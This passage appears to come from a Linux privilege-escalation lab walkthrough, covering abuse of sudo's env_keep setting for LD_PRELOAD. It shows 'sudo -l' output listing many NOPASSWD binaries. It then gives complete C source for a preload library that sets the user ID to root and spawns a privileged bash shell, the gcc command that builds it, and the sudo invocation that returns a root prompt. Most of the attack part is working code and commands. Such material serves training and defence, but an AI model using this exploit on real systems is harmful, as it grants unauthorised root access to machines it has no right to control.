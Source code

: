## Sudo - Environment Variables
Sudo can be configured to inherit certain environment variables from the user's environment.

- Check which environment variables are inherited (look for the env_keep options):

    ```bash
    user@debian:~$ sudo -l
    Matching Defaults entries for user on this host:
        env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

    User user may run the following commands on this host:
        (root) NOPASSWD: /usr/sbin/iftop
        (root) NOPASSWD: /usr/bin/find
        (root) NOPASSWD: /usr/bin/nano
        (root) NOPASSWD: /usr/bin/vim
        (root) NOPASSWD: /usr/bin/man
        (root) NOPASSWD: /usr/bin/awk
        (root) NOPASSWD: /usr/bin/less
        (root) NOPASSWD: /usr/bin/ftp
        (root) NOPASSWD: /usr/bin/nmap
        (root) NOPASSWD: /usr/sbin/apache2
        (root) NOPASSWD: /bin/more
    ```

    LD_PRELOAD and LD_LIBRARY_PATH are both inherited from the user's environment. LD_PRELOAD loads a shared object before any others when a program is run. LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.

- Create a shared object using the code located at `/home/user/tools/sudo/preload.c`:
    
    - Source code:

        ```c
        user@debian:~$ cat /home/user/tools/sudo/preload.c
        #include <stdio.h>
        #include <sys/types.h>
        #include <stdlib.h>

        void _init() {
                unsetenv("LD_PRELOAD");
                setresuid(0,0,0);
                system("/bin/bash -p");
        }
        ```

    - Compile.

        ```bash
        user@debian:~$ gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
        ```

- Run one of the programs you are allowed to run via sudo (listed when running sudo -l), while setting the LD_PRELOAD environment variable to the full path of the new shared object:

    ```bash
    user@debian:~$ sudo LD_PRELOAD=/tmp/preload.so find
    root@debian:/home/user#
    ```

